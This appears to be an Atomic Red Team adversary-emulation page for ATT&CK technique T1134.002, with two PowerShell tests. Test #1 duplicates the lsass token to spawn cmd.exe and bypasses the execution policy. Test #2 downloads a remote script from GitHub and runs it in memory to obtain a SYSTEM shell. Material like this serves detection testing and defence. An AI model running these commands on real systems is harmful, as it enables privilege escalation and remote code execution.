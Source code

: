 ```yaml
---
tags: [T1134_002, atomic_test]
filename: "[[T1134.002|T1134.002 - Create Process with Token]]"
---
```

# T1134.002 - Create Process with Token

## Atomic Test #1 - Access Token Manipulation
This Action demonstrates how an access token for a specific program can spawn another program under a different owner. 
Adversaries can leverage access tokens to run programs under a different user not only to achieve privilege escalation but also to evade detection by blending in with normal user activity. 
This Action will query all processes and list the process name and owner.It will then make a copy of an existing token to create a new instance of cmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** dbf4f5a9-b8e0-46a3-9841-9ad71247239e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ExecutionPolicy -Scope Process Bypass -Force
$owners = @{}
gwmi win32_process |% {$owners[$_.handle] = $_.getowner().user}
Get-Process | Select ProcessName,Id,@{l="Owner";e={$owners[$_.id.tostring()]}}
& "$PathToAtomicsFolder\T1134.002\src\GetToken.ps1"; [MyProcess]::CreateProcessFromParent((Get-Process lsass).Id,"cmd.exe")
```






<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using Token Manipulation technique
Get SYSTEM shell - Pop System Shell using Token Manipulation technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** ccf4ac39-ec93-42be-9035-90e2f26bcd92






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1');Get-WinLogonTokenSystem
```






<br/>
